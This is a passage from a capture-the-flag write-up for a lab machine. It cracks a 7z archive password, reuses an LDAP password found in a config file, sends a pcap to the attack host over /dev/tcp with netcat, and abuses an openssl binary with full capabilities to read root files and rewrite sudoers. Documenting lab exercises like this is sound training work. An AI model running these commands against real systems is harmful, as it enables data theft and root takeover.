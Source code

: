 ```bash
7z2john backup.7z > backup.hash

john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash

delete           (backup.7z)
```

now let’s extract. Looking through the config files, we find status.php contain ldapuser1’s password

```bash
$username = 'ldapuser1';                                                                                                                                 
$password = 'f3ca9d298a553da117442deeb6fa932d'; 
```

Let’s see if this works; we are in.

We are not part of any privileged groups or have sudo privileges. Checking all files in the home dir, we find a pcap file. Let’s transfer that back and view it in wireshark:

```bash
#on attack host
nc -lnvp 1234 > capture2.pcap

#on target 
cat capture.pcap > /dev/tcp/10.10.16.7/1234

```

Not much. Let’s enumerate again with linpeas:

![image.png]({{ site.baseurl }}/assets/lightweight/image%2010.png)

We see that openssl has just ep, this mean it have all capabilities. Now go on GTFO bin and we can file read as root.

```bash
LFILE=/root/root.txt
./openssl enc -in "$LFILE"
```

We can now read files anywhere on the file system. It is important to note that the openssl that has all capabilities is the one in ldapuser1’s home dir, as the one in path /bin/openssl has none, therefore, it’s important to use ./

Here we can also have write permission, we can add our user as part of the sudoer:

```bash
./openssl enc -in /etc/sudoers > sudoers
```

Now edit the following line:

```bash
## Allow root to run any commands anywhere
root    ALL=(ALL)       ALL
ldapuser1    ALL=(ALL)       ALL
```

